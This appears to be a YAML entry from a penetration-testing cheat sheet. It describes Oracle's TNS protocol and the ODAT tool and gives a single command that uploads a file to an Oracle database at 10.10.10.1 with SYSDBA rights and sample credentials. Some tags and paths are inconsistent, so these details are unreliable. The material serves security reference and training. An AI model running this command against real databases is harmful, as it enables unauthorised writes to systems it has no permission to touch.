 ```yaml
---
description: |
  Transparent Network Substrate (TNS), a proprietary Oracle computer-networking technology, supports homogeneous peer-to-peer connectivity on top of other networking technologies such as TCP/IP, SDP and named pipes. TNS operates mainly for connecting to Oracle databases. Oracle Database Attacking Tool (ODAT) is an open-source penetration testing tool written in Python and designed to enumerate and exploit vulnerabilities in Oracle databases. The following command uploads a file with Oracle RDBMS.

  Command Reference:
    
    Target: 10.10.10.1

    Database: oracle

    User: john

    Password: password123

    Output file: /tmp/file.txt

    Upload file: test.txt

command: |
  ./odat.py utlfile -s 10.10.10.1 -d oracle -U john -P password123 --sysdba --putFile /tmp/ file.txt ./test.txt
items:
  - No_Creds
services:
  - TNS
OS:
  - Linux
  - Windows
phases:
  - Enumeration
references:
  - https://github.com/quentinhardy/odat
  - https://en.wikipedia.org/wiki/Transparent_Network_Substrate
---
```

